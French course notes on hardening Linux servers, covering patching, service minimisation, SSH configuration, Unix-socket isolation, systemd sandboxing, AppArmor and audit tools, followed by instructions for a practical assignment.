Principes généraux de sécurisation :
-
Réduction de la surface d'attaque :
-
N'offrir que ce qui est strictement nécessaire.
-
-
Principe de "least privilege" :
-
Un programme, un utilisateur, un service ne doit recevoir que les droits strictement nécessaires.
-
-
Défense en profondeur :
-
Ne jamais se baser que sur une mesure.
-
Exemple : Droits d'accès + encryption + backup + firewall.
-
-
(Automatisation) :
-
Rendre répétable.
-
Éviter les erreurs humaines.
-
Sécurisation des hôtes (Linux) : Mise à jour des logiciels / patching :
Considérations générales :
-
Politique :
-
Mise à jour la plus récente
-
... peut introduire des instabilités
-
... ou patch de sécurité vers version "stable"
-
...
-
-
Automatisation de la mise à jour :
-
Conseillé de manière générale.
-
Certainement pour mise à jour de sécurité.
-
-
Éviter l'installation de logiciels inutiles !!!
Canonical - Expanded Security Maintenance :
Mise à jour des packages :
Machine non mise à jour :
sudo pro attach <token>En résumé, cette commande lie la VM au compte Ubuntu Pro qui a fourni le <token>.
sudo apt-get install ubuntu-toolsÉtat de la sécurité :
pro security-statusEn résumé, cette commande affiche l'état de sécurité du système et les mises à jour disponibles (dont ESM).
Zoom sur partie esm :
pro security-status --esm-appsEn résumé, cette commande détaille les correctifs de sécurité disponibles via ESM pour les applications.
Version exacte de fish :
apt-cache policy fishEn résumé, cette commande affiche les versions disponibles et installées du paquet fish.
Canonical - CVE search :
https://ubuntu.com/security/cves?package=fish
Canonical - Ubuntu Security Notice :
https://ubuntu.com/security/notices/USN-5367-1
Mise à jour des packages :
CVE-2022-20001 :
sudo pro fix CVE-2022-20001En résumé, cette commande applique automatiquement le correctif pour une vulnérabilité spécifique.
CVE-2023-49284 :
sudo pro fix CVE-2023-49284En résumé, cette commande corrige une CVE précise via les outils Ubuntu Pro.
Situation logiciels non standard ?
Situation après upgrade des packages "standards" :
vagrant sshAutomatisation :
Mise en place :
Voici les différentes commandes exécutées dans l'image précédente :
sudo apt install unattended-upgrades apt-listchangesEn résumé cette commande installe les outils pour automatiser les mises à jour de sécurité.
sudo dpkg-reconfigure -plow unattended-upgradesEn résumé, cette commande configure les mises à jour automatiques interactives.
Configuration - À COMPLÉTER si packages non "officiels" :
sudo cat /etc/apt/apt.conf.d/50unattended-upgradesEn résumé, cette commande affiche la configuration des mises à jour automatiques.
Sécurisation des hôtes (Linux) : Limiter les services :
Sockets - communication inter-process (IPC) :
TCP/IP socket :
nginx → 127.0.0.1:9000 → php-fpm
Identificateur : adresse IP + port
Accessible depuis le réseau
Socket Unix (domain socket) :
nginx → /run/php/fpm.sock → php-fpm
Identificateur : chemin de fichier
Permissions filesystem, même machine
ss (socket statistics) liste les deux types. ss -lntp : sockets TCP en écoute. ss -lxp : sockets Unix en écoute.
Limiter les services ouverts à l'écoute - ss :
sudo ss -lntp - ports TCP en écoute :
sudo ss -ltnpEn résumé, cette comande liste les ports TCP en écoute avec les processus associés.
ss (iproute2) liste aussi les sockets Unix (ss -lxp) - fichiers spéciaux sur le filesystem, pas de port réseau. Les deux types sont vus dans la section "Isolation inter-services".
Connexions établies - lsof :
sudo lsof -i:22 - connexions établies par port :
sudo lsof -i:22En résumé, cette commande affiche les connexions réseau actives sur le port 22 (SSH).
ss montre les ports en écoute; lsof -i:port montre les connexions établies et quel utilisateur OS les possède.
ss -lx - sockets Unix : la colonne "Port" est un inode :
ss -lx liste les sockets Unix (fichiers spéciaux). La colonne Local Address:Port réutilise l'en-tête TCP : pour les sockets Unix, le nombre affiché est le numéro d'inode, pas un port réseau.
ss -lx | grep -E 'php|mysqld'En résumé, cette commande filtre les sockets Unix liésà PHP ou MariaDB.
Désactiver les services inutiles :
Sur un serveur minimal, de nombreux services installés par défaut sont inutiles et augmentent la surface d'attaque.
systemctl disable --now + mask :
disable empêche le démarrage au boot. mask crée un lien vers /dev/null - le service ne peut plus démarrer même manuellement ou comme dépendance.
dbus : intégré à systemd, ne pas supprimer - restreindre via /etc/dbus-1/system.d/ si nécessaire.
Quid si accès non-local nécessaire :
-
Faire écouter sur une adresse IP (non-publique) spécifique.
-
Mettre en place une authentification.
-
Pare-feu.
-
Éventuellement, proxy.
Proxy avec terminaison HTTPS + pare-feu (non montré) :
Sécurisation des hôtes (Linux) : Renforcement de l'operating system :
Considérations :
-
Toujours un équilibre entre fonctionnalités / aisance d'utilisation / sécurité.
-
Voir infra liste de mesures prises en "standard".
-
Possible de renforcer les paramètres.
Ubuntu Security Features :
https://wiki.ubuntu.com/Security/Features
Profilage de l'operating system - Canonical :
Profilage en fonction profil type - Center for Internet Security (CIS) :
Voici les différentes commandes exécutées dans l'image précédente :
sudo pro enable usgEn résumé, cette commande active les outils de sécurité Ubuntu (Ubuntu Security Guide).
sudo apt install usgEn résumé, cette commande installe l'outil d'audit de conformité CIS.
sudo usg audit cis_level1_serverEn résumé, cette commande lance un audit de sécurité basé sur le profil CIS niveau 1.
Fichier html généré (usg-report-20240324.0931) copié dans box :
Kernel hanrdening - paramètres sysctl :
/etc/sysctl.d/99-hardening.conf :
cat /etc/sysctl.d/99-hardening.confEn résumé, cette commande affiche les paramètres de durcissement du kernel.
Les paramètres dans /etc/sysctl.d persistent au redémarrage et sont auditables.
sudo sysctl --system les applique immédiatement.
Kernel hardening - vérification :
sudo sysctl --system et vérification :
Voici les différentes commandes exécutées dans l'image précédente :
sudo sysctl --system 2>&1 | grep -A8 '99-hardening'En résumé, cette commande vérifie l'application des paramètres spécifiques.
sysctl kernel.randomize_va_spaceEn résumé, cette commande affiche la valeur de l'ASLR.
randomize_va_space = 2 : ASLR complet - rend les exploits de type buffer overflow beaucoup plus difficiles à exploiter en randomisant les adresses mémoire à chaque exécution.
Sécurisation des hôtes (Linux) : Sécurisation de SSH :
Sécurisation de SSH - vecteur d'entrée principal :
Risques par défaut :
-
Authentification par mot de passe : brute-force possible.
-
Login root direct : compromission immédiate.
-
Sessions inactives maintenues.
-
Forwarding graphique (X11) : surface inutile.
Principe :
-
Clé SSH (pas de mot de passe).
-
Pas de login root direct.
-
Fermer les sessions inactives.
-
Désactiver tout ce qui n'est pas utilisé.
Overrides via sshd_config.d/ :
/etc/ssh/sshd_config inclut sshd_config.d/ :
Voici les différentes commandes exécutées dans l'image précédente :
grep Include /etc/ssh/sshd_configEn résumé, cette commande vérifie si des fichiers externes sont inclus dans la config SSH.
ls /etc/ssh/sshd_config.d/En résumé, cette commande liste les fichiersde configurations additionnels.
sudo sshd -T | grep -E 'passwordauth|permitroot|maxauth'En résumé, cette commande filtre certains paramètres de sécurité SSH dans la configuration SSH effective (après fusion de tous les fichiers).
Modifier sshd_config directement serait écrasé à la mise à jour du paquet. Un fichier dans sshd_config.d/ est préservé aux mises à jour.
Les fichiers sont lus dans l'ordre lexicographique : le premier paramètre rencontré est prioritaire. Nommer 10-hardening.conf garantit qu'il précède 60-clouding-settings.conf.
sudo sshd -T affiche la configuration effective (toutes sources confondues).
Contenu du fichier de durcissement :
/etc/ssh/sshd_config.d/hardening.conf :
cat /etc/ssh/sshd_config.d/10-hardening.confAllowUsers vagrant appphp peut limiter les comptes autorisés.
Après modification : sudo systemctl reload ssh - pas de coupure des sessions actives.
Sécurisation des hôtes (Linux) : Isolation inter-services : sockets Unix et moindre privilège :
Machine virtuelle maintenance+sec - architecture :
Chaque couche tourne sous un utilisateur OS distinct. Les communications inter-couches passent par des sockets Unix - aucun port TCP interne. Objectif : si une couche est compromise, les autres restent protégées.
Sockets Unix - principe :
TCP/IP loopback :
nginx → 127.0.0.1:9000 → php-fpm
-
Port ouvert (visible dans ss).
-
Pile réseau complète traversée.
-
Toute appli peut tenter de s'y connecter.
Socket Unix :
nginx → /run/php/appphp-fpm.sock → php-fpm
-
Aucun port réseau ouvert.
-
Permissions filesystem (owner/group).
-
Inaccessible depuis le réseau.
Même principe entre php-fpm et MariaDB : /run/mysqld.sock - et MariaDB peut désactiver TCP entièrement (skip-networking = 1).
Architecture : 3 couches, 3 utilisateurs, 0 port TCP interne :
-
Chaque service tourne avec son propre utilisateur OS.
-
appphp : SELECT uniquement sur demo.messages (unix_socket auth).
-
PHP-FPM compromis : pas d'accès réseau, pas d'écriture en DB.
Permissions des sockets : qui peut se connecter ?
ls -la /run/php/appphp-fpm.sock /run/mysqld/mysqld.sock :
ls -la /run/php/appphp-fpm.sock /run/mysqld/mysqld.sockEn résumé, cette commande affiche les permissions des sockets Unix.
PHP-FPM : appphp:www-data 660 - seul le groupe www-data peut lire/écrire le socket. En pratique : tout process nginx (tous vhosts) peut s'y connecter. En production multi-vhosts : un groupe dédié par pool (listen.acl_users) évite qu'un vhost accède au pool d'un autre.
MariaDB:mysql 777 (socket ouvert) - protection par authentification : unix_socket auth vérifie que l'OS user est appphp.
Pool PHP-FPM dédié - utilisateur séparé :
/etc/php/8.1/fpm/pool.d/appphp.conf
user = appphp : process PHP en tant qu'appphp (pas www-data).
listen.group = www-data + listen.mode = 0660 : seul nginx peut lire/écrire.
Multi-vhosts : listen.acl_users (ACL POSIX) isole chaque pool.
Sockets actifs - sockets Unix uniquement :
ss -lx | grep -E 'php|mysqld' - sockets Unix :
ss -lx | grep -E 'php|mysqld'Aucun port TCP interne : ni port 3306 (MariaDB) ni port 9000 (PHP-FPM) - vérifiable avec ss -lntp (voir section "Limiter les services").
Moindre privilège - appphp en lecture seule, sans mot de passe :
Droits accordés - unix_socket auth, pas de mot de passe dans le code :
INSERT refusé (SELECT uniquement) :
Résultat et PDO :
curl http://172.28.128.222/
PDO en bref :
PDO = PHP Data Objects : couche d'abstraction BD (idem pour MySQL, SQLite, ...).
ERRMODE_EXCEPTION une erreur DB lève une exception PHP (pas de plantage silencieux).
unix_socket=... dans le DSN : connexion directe via socket Unix, sans TCP, sans mot de passe stocké.
Sécurisation des hôtes (Linux) : Sandboxing des services via systemd :
Sandboxing systemd - principe :
systemd peut restreindre ce qu'un service peut faire, indépendamment des droits Unix. Une faille dans nginx n'ouvre pas l'ensemble du système.
| Directive | Effet |
|---|---|
| NoNewPrivileges=yes | Interdit setuid, escalade de privilèges |
| PrivateTmp=yes | /tmp isolé (invisible des autres services) |
| ProtectSystem=yes | /usr, /boot en lecture seule |
| ProtectHome=yes | /home, /root invisibles |
| RestrictAddressFamilies | Familles réseau autorisées seulement |
| DynamicUser=yes | UID aléatoire à chaque démarrage (avancé) |
Fichier : /etc/systemd/system/<service>.d/sandbox.conf (surcharge de l'unité livrée par le paquet, sans le modifier).
Override systemd - nginx et php-fpm :
nginx.service.d/
php8.1-fpm.service.d/
MariaDB : le paquet mariadb-server inclut déjà ProtectSystem=full et ProtectHome=true dans son unité. On y ajoute PrivateTmp=yes via un override identique.
Vérification - systemd-analyze security :
Score bas = surface d'attaque réduite. ~9.6 UNSAFE sans override. MariaDB part de 8.8 (hardening inclus dans le paquet); PrivateTmp=yes le ramène à 8.5. Aller sous 5 requiert DynamicUser, PrivateNetwork...
Effet concret - PrivateTmp=yes :
Chaque service sandboxé obtient son propre /tmp isolé - impossible d'y déposer des fichiers depuis un autre service, même tournant avec le même utilisateur OS.
Idem pour ProtectHome=yes : nginx ne peut pas lire /home/vagrant.
Sécurisation des hôtes (Linux) : AppArmor : contrôle d'accès obligatoire :
DAC (Unix classique) :
-
Droits définis par le propriétaire du fichier.
-
Un process root peut tout faire.
-
Un service compromis = accès à tous ses fichiers.
MAC - AppArmor :
-
Droits définis par un profil par exécutable.
-
Root ne contourne pas le profil.
-
nginx compromis : limité à ce que son profil autorise.
AppArmor est actif par défaut sur Ubuntu. Complément à systemd sandboxing : systemd restreint le service en tant qu'unité, AppArmor restreint l'exécutable au niveau noyau.
État sur la machine :
sudo aa-status :
sudo aa-statusEn résumé, cette commande affiche l'état d'AppArmor (profils chargés, actifs, en mode enforce ou complain).
Mode enforce : les accès non autorisés par le profil sont bloqués et journalisés.
Mode complain : les accès non autorisés sont seulement journalisés (utile pour tester un profil).
Ajouter un profil pour un service :
Workflow pour profiler nginx :
Ubuntu 22.04 : nginx et php-fpm n'ont pas de profil installé par défaut.
apparmor-profiles (paquet expérimental) en fournit un. En production : profil sur mesure via aa-genprof + tests.
Sécurisation des hôtes (Linux) : Outils : Scanning, Auditing :
Scanning :
-
Outils de type Nmap.
-
Nessus, OpenVAS : scanning de vulnérabilité.
Auditing tools - Lynis :
Audit sur machine pleinement mise à jour :
sudo lynis audit system | tee /vagrant/out/audit2.texEn résumé, cette commande lance un audit de sécurité complet du système avec Lynis et enregistre le résultat à la fois à l'écran et dans un fichier.
Sécurisation des hôtes (Linux) : Outils : Autres :
Autres outils pertinents :
-
Cassage de mots de passe : hashcat, John the Ripper :
-
Tester la robustesse des mots de passe de sa propre machine.
-
-
Host-based Intrusion Detection (HIDS) : AIDE, OSSEC :
-
AIDE : vérifie l'intégrité des fichiers système (hash).
-
OSSEC : corrélation de logs, détection d'intrusion.
-
-
Rootkit detection : chkrootkit, rkhunter.
Sécurisation des hôtes à grande échelle, Gestion renforcée des identités, Zero Trust Network Access : Du paramètre à l'identité : une approche architecturale : Environnements de travail :
-
sso :
-
Démo de gestion renforcée des accès.
-
Un portail pour s'authentifier.
-
Une application pour gérer, entre autres, les accès.
-
Deux applications protégées par des règles d'accès.
-
Résolution des noms des différentes applications du domaine.
-
Via /etc/hosts de l'hôte (Windows : Configure Static Host Name to IP Address Mappings).
-
172.28.128.25 auth.example.com manager.example.com reload.example.com test1.example.com test2.example.com
Voici le Vagrantfile de cette VM :
-
-
zero & zero-dev-monit & zero-client :
-
Démo solution de "Zero Trust Network Access".
-
Logiciel tailscale à installer sur la machine hôte ou utiliser zero-client comme troisième machine.
-
Provisionner au moins deux comptes sur tailscale.com (self hosting possible).
Voici le Vagrantfile de la VM nommée "zero" :
Voici le Vagrantfile de la VM nommée "zero-dev-monit" :
Voici le Vagrantfile de la VM nommée "zero-client" :
-
Évaluation - instructions :
Objectifs / critères UE 478 :
-
Capacités à démontrer :
-
Mettre en pratique les principes, outils et technologies de sécurisation des hôtes.
-
Expliquer et justifier les choix et solutions.
-
...En mobilisant du matériel informatique pertinent (serveur, client, réseau...), éventuellement virtualisé.
-
-
Critères :
-
Pertinence des solutions.
-
Analyse des éléments sécurisés versus "coût".
-
Respect timing/format.
-
Cohérence de la justification.
-
Clarté & précision du vocabulaire.
-
Travail pratique :
Contenu :
-
Description du contexte :
-
Contexte d'entreprise et infrastructure globale.
-
Description des actifs à protéger, des principales menaces.
-
-
Principaux contrôles techniques mis en place :
-
Architecture globale.
-
Liste des contrôles techniques mis en place.
-
Justification au regard des menaces.
-
-
Démonstration de la mise en place de minimum cinq contrôles techniques :
-
(De préférence dans un environnement virtualisé).
-
Configuration.
-
Démonstration d'une menace potentielle.
-
Démonstration du fonctionement du contrôle.
-
Limites du contrôle mis en place.
-
-
Conclusions.
Exemple de contexte :
-
Contexte d'entreprise :
-
Site Web d'une organisation.
-
Site "statique", plusieurs utilisateurs autorisés à modifier le contenu à partir de leurs ordinateurs "clients".
-
Serveur derrière pare-feu.
-
Nécessité de pouvoir mettre à jour le contenu & la configuration "à distance".
-
-
Actifs à protéger :
-
Contenu très important pour réputation.
-
Réelle menace de piratage du contenu, ou de le rendre indisponible.
-
Livrables :
-
Configuration à présenter :
-
Au moins deux "types de machines" (terminal, serveur, etc.).
-
Au moins cinq contrôles techniques mis en place.
-
-
Rapport :
-
Contexte d'entreprise.
-
Principaux contrôles techniques mis en place
-
Démos : copie principaux écrans (fonctionnement, limites, alternatives).
-
Timing ENCORE À FINALISER :
-
11/5 - Remise Contexte + Atelier.
- 18/5 - Atelier.
-
21/5 - Atelier (à domicile).
-
25/5 - Remise travail.
-
28/5 - Défense travail.